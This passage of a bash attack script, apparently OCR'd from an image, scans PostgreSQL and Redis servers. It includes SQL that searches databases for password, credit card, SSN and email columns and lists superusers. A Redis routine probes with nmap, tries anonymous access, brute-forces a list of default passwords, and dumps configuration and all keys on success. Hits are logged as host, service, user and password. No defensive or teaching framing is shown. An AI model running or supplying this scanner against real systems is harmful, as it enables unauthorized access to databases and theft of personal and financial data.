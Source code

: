 ```bash
SELECT column_name, table_name, table_schema FROM information_schema.columns WHERE column_name ~* 'pass|pwd|credit|ssn|social|email|user' LIMIT 100;
SELECT usename, usesuper FROM pg_user;
EOF
                    return 0
                fi
            done
        done
        echo -e "${RED}[-]${NC} Authentication failed for $target:postgresql"
    fi
}

scan_redis() {
    local target="$1"
    echo -e "${YELLOW}[INFO]${NC} Scanning Redis on $target"
    
    nmap -p 6379 -sV "$target" > "$OUTPUT_DIR/redis/nmap_$target.txt" 2>&1
    
    if grep -q "6379.*open" "$OUTPUT_DIR/redis/nmap_$target.txt"; then
        echo -e "${GREEN}[+]${NC} Redis service detected on $target:6379"
        
        # Test anonymous access
        if redis-cli -h "$target" ping > "$OUTPUT_DIR/redis/auth_$target.txt" 2>&1; then
            if grep -q "PONG" "$OUTPUT_DIR/redis/auth_$target.txt"; then
                echo -e "${GREEN}[SUCCESS]${NC} $target:redis:anonymous:no_auth"
                
                # Detailed enumeration
                redis-cli -h "$target" << EOF > "$OUTPUT_DIR/redis/enum_$target.txt" 2>&1
INFO
CONFIG GET "*"
DBSIZE
KEYS *
EOF
                return 0
            fi
        fi
        
        # Test common passwords
        local passwords=("redis" "admin" "password" "123456")
        for pass in "${passwords[@]}"; do
            if redis-cli -h "$target" -a "$pass" ping > "/tmp/redis_test.txt" 2>&1; then
                if grep -q "PONG" "/tmp/redis_test.txt"; then
                    echo -e "${GREEN}[SUCCESS]${NC} $target:redis:default:$pass"
                    redis-cli -h "$target" -a "$pass" << EOF > "$OUTPUT_DIR/redis/enum_$target.txt" 2>&1
INFO
CONFIG GET "*"
DBSIZE
KEYS *
EOF
                    return 0
                fi
            fi
        done
        echo -e "${RED}[-]${NC} Authentication failed for $target:redis"
    fi
}

# Main execution
print_banner

if [[ -z "$TARGET_FILE" ]]; then
    echo "Usage: $0 <target_file>"
```